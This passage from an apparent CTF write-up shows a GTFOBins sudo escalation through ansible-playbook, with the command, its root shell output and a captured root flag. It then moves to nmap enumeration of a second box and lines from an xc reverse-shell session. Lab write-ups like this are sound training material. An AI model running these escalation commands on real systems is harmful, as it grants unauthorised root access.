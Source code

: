 I just searched this binary in gtfobins and grabbed:

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```

> https://gtfobins.github.io/gtfobins/ansible-playbook/

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
TF=$(mktemp)
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
PLAY [localhost] **************************************************************
TASK [Gathering Facts] *********************************************************
ok: [localhost]
TASK [shell] *******************************************************************

# id

id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
STF22{3f62f62107c411482f5bc8caff1843e2}
```

And that’s it \\o/

## Electrogrid (Fullpwn, 2000 Points)

### Enumeration

We started with a simple `nmap` scan with the basic options:

```bash
hcue@pjsk:/tmp » nmap -sC -sV 10.129.228.64 -v
9000/tcp open  cslistener?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LPDString, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=utf-8
|     Content-Length: 32
|     Date: Mon, 05 Dec 2022 09:45:20 GMT
|     Connection: close
|     {"message":"404 page not found"}
|   GetRequest, HTTPOptions:
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=utf-8
|     Content-Length: 32
|     Date: Mon, 05 Dec 2022 09:45:13 GMT
|     Connection: close
|     {"message":"404 page not found"}
|   RTSPRequest:
|     HTTP/1.1 404 Not Found
|     Content-Type: application/json; charset=utf-8
```

[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname